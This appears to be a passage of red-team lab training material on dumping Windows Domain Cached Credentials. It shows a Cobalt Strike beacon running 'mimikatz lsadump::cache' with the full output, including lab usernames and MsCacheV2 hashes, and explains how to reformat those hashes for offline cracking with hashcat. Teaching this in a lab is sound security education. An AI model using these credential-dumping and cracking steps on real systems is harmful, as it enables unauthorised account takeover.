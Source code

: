Domain Cached Credentials were designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain (think of a roaming laptop for example). The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM.
```shell
beacon> mimikatz lsadump::cache

Domain : SRV-1
SysKey : 5d11b46a92921b8775ca574306ba5355

Local name : SRV-1 ( S-1-5-21-4124990477-354564332-720757739 )
Domain name : DEV ( S-1-5-21-3263068140-2042698922-2891547269 )
Domain FQDN : dev.cyberbotic.io

Policy subsystem is : 1.14
LSA Key(s) : 1, default {2f242789-b6b3-dc42-0903-3e03acab0bc2}
  [00] {2f242789-b6b3-dc42-0903-3e03acab0bc2} c09ac7dd10900648ef451c40c317f8311a40184b60ca28ae78c9036315bf8983

* Iteration is set to default (10240)

[NL$1 - 2/25/2021 1:07:37 PM]
RID       : 00000460 (1120)
User      : DEV\bfarmer
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

[NL$2 - 5/17/2021 2:00:46 PM]
RID       : 0000046e (1134)
User      : DEV\svc_mssql
MsCacheV2 : 3f903860f7b6861a702eb9d6509d9da6

[NL$3 - 5/17/2021 2:00:50 PM]
RID       : 00000462 (1122)
User      : DEV\jking
MsCacheV2 : 673e2fe26e26e79c58379168b79890f6
```

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.

>DCC is orders of magnitude slower to crack than NTLM.